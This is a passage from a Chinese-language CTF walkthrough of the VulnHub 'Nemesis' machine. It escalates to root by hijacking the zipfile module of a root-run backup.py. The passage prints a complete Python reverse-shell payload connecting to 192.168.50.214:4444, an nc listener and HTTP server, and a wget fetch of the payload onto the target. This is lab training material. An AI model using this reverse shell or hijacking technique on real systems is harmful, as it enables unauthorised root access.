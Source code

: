 3. 是一个备份文件，backup.py将/var/www/html目录备份到了/tmp/website.zip，而且是以root权限去运行的，那就可以用这个文件进行提权。

4. 先在kali上创建一个zipfile.py文件

   ``` python
   import socket,subprocess,os
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
   s.connect(("192.168.50.214",4444))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(["/bin/sh","-i"])
   ```

5. kali上开启监听和http服务

   ``` shell
   nc -lvnp 4444
   python3 -m http.server
   ```

   ![27.png](img/vulnhub/Nemesis/Image27.png)

6. 靶机上下载zipfile.py文件`wget http://192.168.50.214:8000/zipfile.py`，下载成功后靶机会自动执行backup.py脚本进行备份

   ![28.png](img/vulnhub/Nemesis/Image28.png)

7. 稍等一下就可以看到kali上接收到了反弹shell，ls发现flag2.txt和root.txt
